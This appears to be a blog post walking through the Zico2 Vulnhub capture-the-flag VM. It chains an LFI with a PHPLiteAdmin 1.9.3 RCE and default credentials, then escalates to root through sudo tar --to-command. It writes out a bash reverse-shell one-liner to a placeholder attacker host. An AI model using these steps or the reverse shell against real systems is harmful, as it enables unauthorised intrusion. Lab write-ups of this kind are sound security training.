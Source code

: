 ```yaml
---
layout: post
title: Zico2 Walkthrough
published: true
---
```

Here we go. Walkthrough for [Zico2]([Vulnhub](https://www.vulnhub.com/entry/bulldog-2,246/)) is happening in 3....2....1.


 
      ****Spoiler Alert****          ****Spoiler Alert****




For me this was a sleeper of a CTF. I had the box right up to a low privilege shell in a matter of minutes, but popping a shell and escalating from there took much longer than I anticipated. It was a very informative and fun VM. Let's get to crack'n!

Initial Nmap shows HTTP, SSH, & RPC:

![Bulldog2 NmapOutput]({{ site.url }}/images/Zico2/nmap.JPG)

Let's see what's showing up on HTTP:

![Bulldog2 Base]({{ site.url }}/images/Zico2/base_page.JPG)

Zico's Shop? Looks ? Questionable...  
So looking at the source here shows us the following:  
![Bulldog2 Source]({{ site.url }}/images/Zico2/basepage_source_lfi.JPG)  

Let's see if view.php is susceptible to a Local File Inclusion (LFI) vulnerability here:  
![Bulldog2 LFI]({{ site.url }}/images/Zico2/lfi.JPG)  

Bingo! Although this appeared to be just one vulnerability that had to be chained to another to exploit this system. Let's ennumerate a little more using Nikto & Directory Buster:  
![Bulldog2 Nikto]({{ site.url }}/images/Zico2/nikto.JPG)
![Bulldog2 Dirb]({{ site.url }}/images/Zico2/dirb.JPG)  

Ok, dirb gave us quite a bit here to take a look at.  

If we browse to the /dbadmin directory we're hit with directory browsing with a single test_db.php file, and going to that file we see a login for a PHPLiteAdmin v1.9.3 instance.  
![Bulldog2 PHPLiteAdmin]({{ site.url }}/images/Zico2/phpliteadmin.JPG)   
A quick Google shows us that the default password for this installation is "admin". In this particular instance it is not changed after installation.  
Once logged in I was able to find two hashes for a "root" and "zico" account. They cracked fairly easily via Hashcat. Unfortunately I was not able to find any uses for these and it looks like these were red herrings <*)))><  

Not seeing anything obvious here let's search Exploit-DB:
![Bulldog2 Sploit]({{ site.url }}/images/Zico2/sploit.JPG)  

That's more like it, matching our version at 1.9.3, we see an RCE right up our alley.  

The RCE is pretty straight-forward. Creating a database with the .php extension in this version of PHPLiteAdmin, will not change the extension. So if we create one of these databases, create a table with PHP code, and use our previously found LFI to trigger the database file, the PHP code is interpreted. Let's see if we can actually make this work with a simple PHPInfo statement:  

![Bulldog2 Sploit_Test]({{ site.url }}/images/Zico2/exploit_test.JPG)  

Going from a simple PHPInfo command to uploading a shell took a bit longer to figure out syntax-wise:  

![Bulldog2 Shell_Up]({{ site.url }}/images/Zico2/shell_upload.JPG)  

This is a simple Bash script with the following quick shell syntax:  
	bash -i >& /dev/tcp/x.x.x.x/PORT 0>&1  
Triggering the reverse shell in the same way gives us low privilege access to the www-data account. After the shell was popped, I upgraded to PTY via:  
	python -c 'import pty; pty.spawn("/bin/bash")'
Poking around via the usual checks didn't turn up much. We have read access to many files in /home/zico though. I wonder if there are any passwords I can use here for additional escalations?  

![Bulldog2 WP]({{ site.url }}/images/Zico2/wp-config.JPG)  

Interesting. Zico chose his user account for the WordPress installation. Lets dump our current shell and SSH into his account to check sudo privileges:

![Bulldog2 Sudo]({{ site.url }}/images/Zico2/zico_sudo.JPG)  

Cool. Tar & Zip can be run as root with no password checks. I'm pretty sure this is the escalation path at this point, but how can we escalate with just these?  

I wasn't sure which one to focus on and so decided to check the .bash_history. There was evidence of Zico running _sudo -u root /bin/tar --usage_ so that's where we need to look!  

Checking the usage switch, I saw the _--to-command_ switch. This switch will take the contents of a tar'd file and run the specified commands against each line of the file. Googling a few examples I created another reverse shell Bash script similar to the one from earlier, tar'd the file, setup my NetCat listener on my attacker machine and ran the following:  

![Bulldog2 Trigger_Root]({{ site.url }}/images/Zico2/tar-command.JPG)  
![Bulldog2 Root_Shell]({{ site.url }}/images/Zico2/root_shell.JPG)  

Boom! Let's grab our flag:  

![Bulldog2 Flag]({{ site.url }}/images/Zico2/flag.JPG)

It's Adventure Time!! | (• ◡•)| (❍ᴥ❍ʋ)


















